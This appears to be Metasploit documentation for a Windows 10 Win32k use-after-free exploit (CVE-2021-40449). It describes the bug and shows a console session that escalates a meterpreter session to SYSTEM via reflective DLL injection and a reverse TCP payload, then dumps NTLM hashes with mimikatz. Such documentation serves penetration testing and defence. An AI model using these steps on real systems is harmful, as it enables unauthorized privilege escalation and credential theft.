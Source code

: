## Vulnerable Application

A use after free vulnerability exists in the `NtGdiResetDC()` function of Win32k which can be leveraged by
an attacker to escalate privileges to those of `NT AUTHORITY\SYSTEM`. The flaw exists due to the fact
that this function calls `hdcOpenDCW()`, which performs a user mode callback. During this callback, attackers
can call the `NtGdiResetDC()` function again with the same handle as before, which will result in the PDC object
that is referenced by this handle being freed. The attacker can then replace the memory referenced by the handle
with their own object, before passing execution back to the original `NtGdiResetDC()` call, which will now use the
attacker's object without appropriate validation. This can then allow the attacker to manipulate the state of the
kernel and, together with additional exploitation techniques, gain code execution as NT AUTHORITY\SYSTEM.

This module has been tested to work on Windows 10 x64 RS1 (build 14393) and RS5 (build 17763), however
previous versions of Windows 10 will likely also work.

Note the exploit may occasionally not work the first time so you may have to run it again to get the results.

## Options

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Win10 RS5 x64
2. `use exploit/windows/local/cve_2021_40449`
3. `set session <session>`
4. `exploit`
5. Get a SYSTEM session

## Scenarios

### Windows 10 1809 Build 17763.2114 x64

```
msf exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.28.156.210:4444
[*] Sending stage (200262 bytes) to 172.28.156.210
[*] Meterpreter session 1 opened (172.28.145.185:36167 -> 172.28.156.210:4444 ) at 2021-11-05 15:45:08 -0500

meterpreter > getuid
Server username: DESKTOP-3GHNQ93\normal
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The system cannot find the file specified. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
meterpreter > sysinfo
Computer        : DESKTOP-3GHNQ93
OS              : Windows 10 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/cve_2021_40449
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/cve_2021_40449) > show options

Module options (exploit/windows/local/cve_2021_40449):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.28.145.185   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 10 x64 RS1 (build 14393) and RS5 (build 17763)


msf exploit(windows/local/cve_2021_40449) > set SESSION 1
SESSION => 1
msf exploit(windows/local/cve_2021_40449) > set LPORT 9988
LPORT => 9988
msf exploit(windows/local/cve_2021_40449) > exploit

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_sys_process_set_term_size
[*] Started reverse TCP handler on 172.28.145.185:9988
[*] Running automatic check ("set AutoCheck false" to disable)
^C[-] Exploit failed [user-interrupt]: Interrupt
[-] exploit: Interrupted
msf exploit(windows/local/cve_2021_40449) > exploit

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_sys_process_set_term_size
[*] Started reverse TCP handler on 172.28.145.185:9988
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Target's build number: 10.0.17763.2114
[+] The target appears to be vulnerable. Vulnerable Windows 10 v1809 build detected!
[*] Launching msiexec to host the DLL...
[+] Process 2520 launched.
[*] Reflectively injecting the DLL into 2520...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200262 bytes) to 172.28.156.210
[*] Meterpreter session 2 opened (172.28.145.185:9988 -> 172.28.156.210:49900 ) at 2021-11-05 15:46:21 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > load kiwi
Loading extension kiwi...c
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain           NTLM                              SHA1
--------  ------           ----                              ----
normal    DESKTOP-3GHNQ93  a38673ad58b19421e952fc317b62c3c4  ccff8cc980f0024dc5b3f925194a35c0fa0231c3
test      DESKTOP-3GHNQ93  0cb6948805f797bf2a82807973b89537  87f8ed9157125ffc4da9e06a7b8011ad80a53fe1

wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
DESKTOP-3GHNQ93$  WORKGROUP        (null)
normal            DESKTOP-3GHNQ93  (null)
test              DESKTOP-3GHNQ93  (null)

kerberos credentials
====================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
desktop-3ghnq93$  WORKGROUP        (null)
normal            DESKTOP-3GHNQ93  (null)
test              DESKTOP-3GHNQ93  (null)


meterpreter >
```
